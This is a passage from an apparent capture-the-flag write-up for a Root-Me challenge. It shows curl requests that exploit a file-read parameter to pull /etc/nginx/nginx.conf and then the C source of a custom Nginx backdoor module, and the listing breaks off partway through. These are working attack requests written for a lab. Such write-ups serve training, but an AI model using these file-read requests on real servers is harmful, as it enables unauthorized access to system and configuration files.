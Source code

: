 We also can read the Nginx configuration and there is something intersting :

```bash
curl 'http://node1.challenges.ctf20k.root-me.org:20614/?filepath=/etc/nginx/nginx.conf'
worker_processes 1;

events {
    worker_connections 1024;
}

http {
    include       mime.types;
    default_type  application/octet-stream;

    server {
        listen       80;
        server_name  localhost;

        location / {
            proxy_pass http://127.0.0.1:5000;
        }

        location /Th1s_3ndp0int_1s_S3cr3t {
            # Private endpoint for the Nginx module developed by the trainee.
            # I haven't taken the time to check the code yet ... it seems good.
            # /usr/local/src/root-me-backdoor/ngx_http_root_me_backdoor_module.c
            root_me_backdoor on;
        }
    }
}
```

There is indeed a proxy pass to the Flask application, but there is also another endpoint : /Th1s_3ndp0int_1s_S3cr3t with directive root_me_backdoor on;

We are also informed that the source code is available in the path /usr/local/src/root-me-backdoor/ngx_http_root_me_backdoor_module.c.

We can use the file read to discover the content of this Nginx module.

```bash
curl 'http://node1.challenges.ctf20k.root-me.org:20614/?filepath=/usr/local/src/root-me-backdoor/ngx_http_root_me_backdoor_module.c'
#include <ngx_config.h>
#include <ngx_core.h>
#include <ngx_http.h>
#include <stdio.h>
#include <stdlib.h>

typedef struct {
    ngx_flag_t backdoor;
} ngx_http_root_me_backdoor_conf_t;

static char *ngx_http_root_me_backdoor(ngx_conf_t *cf, ngx_command_t *cmd, void *conf);
static ngx_int_t ngx_http_root_me_backdoor_handler(ngx_http_request_t *r);
static void *ngx_http_root_me_backdoor_create_conf(ngx_conf_t *cf);
static char *ngx_http_root_me_backdoor_merge_conf(ngx_conf_t *cf, void *parent, void *child);

static ngx_command_t ngx_http_root_me_backdoor_commands[] = {
    { ngx_string("root_me_backdoor"),
      NGX_HTTP_LOC_CONF | NGX_CONF_FLAG,
      ngx_http_root_me_backdoor,
      NGX_HTTP_LOC_CONF_OFFSET,
      offsetof(ngx_http_root_me_backdoor_conf_t, backdoor),
      NULL },
    ngx_null_command
```